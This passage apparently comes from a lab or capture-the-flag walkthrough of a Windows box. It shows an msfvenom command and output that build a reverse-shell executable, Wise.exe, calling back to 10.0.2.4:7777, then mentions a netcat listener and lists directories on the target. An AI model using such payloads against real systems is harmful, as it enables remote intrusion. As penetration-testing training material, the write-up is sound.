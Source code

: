 They syntax for creating a windows executable with msfvenom is: `msfvenom -p windows/x64/shell_reverse_tcp LHOST= <MACHINE-IP> LPORT = <PORT> -f exe -o <FILENAME>`

```bash
┌──(kali㉿kali)-[~/transfer]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.4 LPORT=7777 -f exe -o Wise.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: Wise.exe
```

We now have a malicious file `Wise.exe` ready to be uploaded to our Windows machine.

Start a python server in the same directory and a netcat listener (using the port specified in the malicious payload) in another terminal .

Back in the windows machine. Let’s move to the directory we need to move our Wise.exe:

```bash
c:\Users\butler\Downloads>cd c:\
cd c:\

c:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\

12/07/2019  01:14 AM    <DIR>          PerfLogs
08/14/2021  04:11 AM    <DIR>          Program Files
08/14/2021  04:34 AM    <DIR>          Program Files (x86)
08/14/2021  04:29 AM    <DIR>          Users
08/14/2021  04:39 AM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  11,112,075,264 bytes free

c:\>cd "Program Files (x86)"

c:\Program Files (x86)>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Program Files (x86)

08/14/2021  04:34 AM    <DIR>          .
08/14/2021  04:34 AM    <DIR>          ..
08/14/2021  04:05 AM    <DIR>          Common Files
12/07/2019  01:49 AM    <DIR>          Internet Explorer
01/24/2024  02:27 AM    <DIR>          Microsoft
12/07/2019  01:31 AM    <DIR>          Microsoft.NET
04/09/2021  05:55 AM    <DIR>          Windows Defender
04/09/2021  05:55 AM    <DIR>          Windows Mail
04/09/2021  05:55 AM    <DIR>          Windows Media Player
12/07/2019  01:52 AM    <DIR>          Windows Multimedia Platform
12/07/2019  01:49 AM    <DIR>          Windows NT
04/09/2021  05:55 AM    <DIR>          Windows Photo Viewer
12/07/2019  01:52 AM    <DIR>          Windows Portable Devices
12/07/2019  01:31 AM    <DIR>          WindowsPowerShell
08/14/2021  05:28 AM    <DIR>          Wise
               0 File(s)              0 bytes
              15 Dir(s)  11,106,832,384 bytes free
```